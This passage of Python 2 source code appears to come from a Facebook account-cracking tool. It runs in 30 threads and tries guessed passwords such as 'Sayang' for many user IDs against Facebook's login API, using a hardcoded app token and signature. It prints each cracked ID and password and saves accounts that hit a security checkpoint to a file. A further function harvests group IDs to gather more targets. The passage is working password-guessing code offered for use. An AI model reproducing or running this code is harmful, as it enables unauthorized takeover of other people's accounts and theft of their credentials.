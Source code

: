 													print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;93m' + user
													print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;93m' + pass5 + '\n'
													cek = open("out/super_cp.txt", "a")
													cek.write("ID:" +user+ " Pw:" +pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = 'Sayang'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;96m[✓] \x1b[1;92mBERHASIL'
														print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;92m' + b['name']
														print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;92m' + user
														print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;92m' + pass6 + '\n'
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;96m[✖] \x1b[1;93mCEKPOINT'
															print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;93m' + b['name']
															print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;93m' + user
															print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;93m' + pass6 + '\n'
															cek = open("out/super_cp.txt", "a")
															cek.write("ID:" +user+ " Pw:" +pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSelesai \033[1;97m....'
	print"\033[1;96m[+] \033[1;92mTotal OK/\x1b[1;93mCP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint))
	print("\033[1;96m[+] \033[1;92mCP File tersimpan \033[1;91m: \033[1;97mout/super_cp.txt")
	raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
	super()


def grupsaya():
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;96m[!] \x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		keluar()
	try:
		os.mkdir('out')
	except OSError:
		pass
	os.system('clear')
	print logo
	print 42*"\033[1;96m="
	try:
		uh = requests.get('https://graph.facebook.com/me/groups?access_token='+toket)
		gud = json.loads(uh.text)
		for p in gud['data']:
			nama = p["name"]
			id = p["id"]
			f=open('out/Grupid.txt','w')
			listgrup.append(id)